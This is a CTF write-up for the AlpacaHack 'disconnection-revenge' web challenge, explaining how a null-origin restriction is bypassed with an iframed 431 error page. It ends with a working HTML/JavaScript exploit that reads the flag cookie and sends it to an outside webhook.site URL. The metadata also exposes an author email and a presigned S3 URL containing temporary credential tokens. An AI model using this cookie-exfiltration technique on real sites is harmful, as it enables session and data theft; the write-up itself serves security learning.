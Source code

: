 ```yaml
---
id: 14e48583-e65d-80e6-b8d5-c53f07905d97
title: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
created_time: 2024-11-30T11:42:00.000Z
last_edited_time: 2025-05-22T09:27:00.000Z
cover_image: ./imgs/just-a-chill-guy_3tLjvXZj.jpg
icon_emoji: 😭
categories:
  - XSS
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/just-a-chill-guy_3tLjvXZj.jpg

---
```


Unfortunately, I solved this challenge only 30 minutes after the CTF ended. Here is my write-up about the challenge.

![](./imgs/image_DwgIE5Io.png)

![](./imgs/image_OeAvG4ga.png)

# Description

This is a fixed challenge of `disconnection`.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/05b115ea-7d4c-4e24-b39d-6e32117c2161/disconnection-revenge.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466XRZNGYWW%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T141353Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDYaCXVzLXdlc3QtMiJIMEYCIQDotq5zO3PeUPtOUFrOda%2BXuPOSAd4oD3%2FRnWdnHkAQTgIhAOqxKd2tIkZxM%2FQjMs8bOZFxGNUqz39a8E5kGYz2Pfa3KogECO%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQABoMNjM3NDIzMTgzODA1Igxn7WzPgMRHKDm20nsq3APt4o%2ByDt9mHkBEXNCIW9yfG9slcEExujnJqtK6Aells2kXQiP3DThLrjdmHjME46V30qtLQEng6fmWhyKlLe0PVNrszOH71eFaYjzb6XX1D1Q1NG0jK3lO%2FouzqCF00BIa9ZgsD4dJpLgJ0Vupwy0%2BHkYRQF8NUDh8PORBumBPGCPBfxX8lJxKIfdSraE%2BOwMg6MDN5NQ%2BfKQOvEBP8mNaUeoa6OMYIhxyw5kxvxWfI7Njmx7He%2BUc2nWBzmfi4NKVsPs8GVoM5syRyUjCO3Au9ZSF9U8kdESc5iz5rSGdVUNQSaUpGm%2Fw7n4ZLJoHZQUJsIcEywHlRzJls15dRSelXOwt2oU%2BWRyljMh2NLcnkaej7FALNb8KbEyZBeabxrMSajETKIG180BV5xeKfebbEZgjt0MtXl4Bw2e5XdvSpxt673Ixbu%2FzxqdT7dYJYEZniVooyXURcCf%2FMp7D1fUbwfGf5R%2FLyIXZGY7b%2B%2Fu6xUNMTj7%2BwpXmFgxOmCgTvZT6ls4qBzY3kZ4JTJjPtLCFYYvwpzvHRRor6C4XAFsQc%2B%2F7EAoK7LG0UwlT4ngwMtvlSahIga6JhbxMUETMYdGD4CgNCrFFdavsC9rdcnMfRTiCdJXZUGWyERUgkTDs8sHBBjqkAWTSmOLNpdMan%2BimKwn6jz2zMCCaflxcyz4w3%2BNH1Yb%2FZY%2BOJMVU5rfN2V4ZnrXTCbjXPmIDAuiD2swC9bphGObBlaqEuNrGRf5YfbyjR0Cd0p%2Bq4DMEY9Cy0Xp%2FtFqkr0xp0fVvoUYkbKGErLERXtGWUXkj6WIGnzMsm7XzFJm6dOpIkf0cDHb2Hyh4MA2utrteSiYz8fYPSWpqnJdFd5eJwhp8\&X-Amz-Signature=d6640ae535f26415544a480ecba9d1bf284bba6a860e768ebb82de1afcd6c865\&X-Amz-SignedHeaders=host\&x-id=GetObject)

*   Challenge: [http://34.170.146.252:55944](http://34.170.146.252:55944/), Admin bot: [http://34.170.146.252:56152](http://34.170.146.252:56152/) shared

# Exploit

In this challenge, we are given source code like this:

```javascript
import express from "express";

const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .all("/*", (req, res) => res.socket.destroy()) // disconnected
  .use((err, req, res, next) => {
    // revenge!
    res.socket.destroy(); // disconnected
  })
  .listen(3000);

```

The interesting part about this source code is in the Content Security Policy (CSP):

```javascript
res.setHeader(
  "Content-Security-Policy",
  "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
);

```

The disconnect mechanism:

```javascript
.all("/*", (req, res) => res.socket.destroy()) // disconnected
.use((err, req, res, next) => {
  // revenge!
  res.socket.destroy(); // disconnected
})

```

There's also a code injection vulnerability here that allows us to gain XSS:

```javascript
const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();
```

The flag is located in the `/cookie` path, as shown in this snippet of the source code:

```javascript
await page.setCookie({
  name: "FLAG",
  value: FLAG,
  domain: APP_HOST,
  path: "/cookie", // 🍪
});

```

The interesting part is that we can't get the flag easily by accessing `/cookie` directly using XSS and get the cookie from that. The disconnect mechanism causes us to be instantly disconnected when accessing any URL except `/`, resulting in a browser error. Therefore, when we try to access URLs like `/cookie`, the browser will instantly error ERR\_EMPTY\_RESPONSE, and the origin will be null as shown in the image below.

![](./imgs/image_xyiZIUrb.png)

There’s a trick introduced in a previous Google CTF to bypass this issue, as detailed in this [Google CTF solution](https://github.com/google/google-ctf/tree/8ea1054a4a6af49e8cf14e10896dc94d73126a29/2023/quals/web-postviewer2/solution#no-csp-subpage). The trick involves adding an arbitrarily large number of characters into the parameters to make the server return `431 (Request Header Fields Too Large)`. However, simply adding a large number of characters to the parameters won't work, as shown in the image below, where the origin is still null.

![](./imgs/image_oXKFjaHs.png)

The key is to iframe the `431` page, which somehow makes the origin become the original origin instead of null, as shown in the image below.

![](./imgs/image_U9FpYp4t.png)

But… there’s always a problem after problem. The cookie isn’t included in the iframe because the cookie isn’t set to `SameSite=None`, so it’s not included in the iframe in a different origin.

![](./imgs/image_nVR512CH.png)

I just found a strange trick after trying to open a new opener inside the `/cookie` path here:

![](./imgs/image_8Oq9CJYo.png)

When I try to `open("")`, it will have an origin, and the location is `about:blank`. There’s also the flag that should be in the `/cookie` path. I assume that the window we open is somehow in the `/cookie` path, but with the `about:blank` location. I don't know why this happens 💀. But here is my final exploit:

```html
<html>
    <body>
        <iframe></iframe>
        <iframe></iframe>
        <script>
            async function main(){
                const target = "disconnection-revenge"
                const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
                var iframe = document.getElementsByTagName('iframe')[0];
                iframe.src = "http://"+target+":3000/cookie/?"+"A".repeat(100000);
                await sleep(1000);
                var iframe2 = document.getElementsByTagName('iframe')[1];
                iframe2.src = "http://"+target+":3000/?xss="+"w = top.frames[0].open('');setTimeout(()=>{open(`https://webhook.site/37fa4a4c-9842-42db-9431-a15d81aee4a0?${w.document.cookie}`)},1000)";
                await sleep(1000);
            }
            main();
        </script>
    </body>
</html>

```

![](./imgs/image_BQK3W663.png)
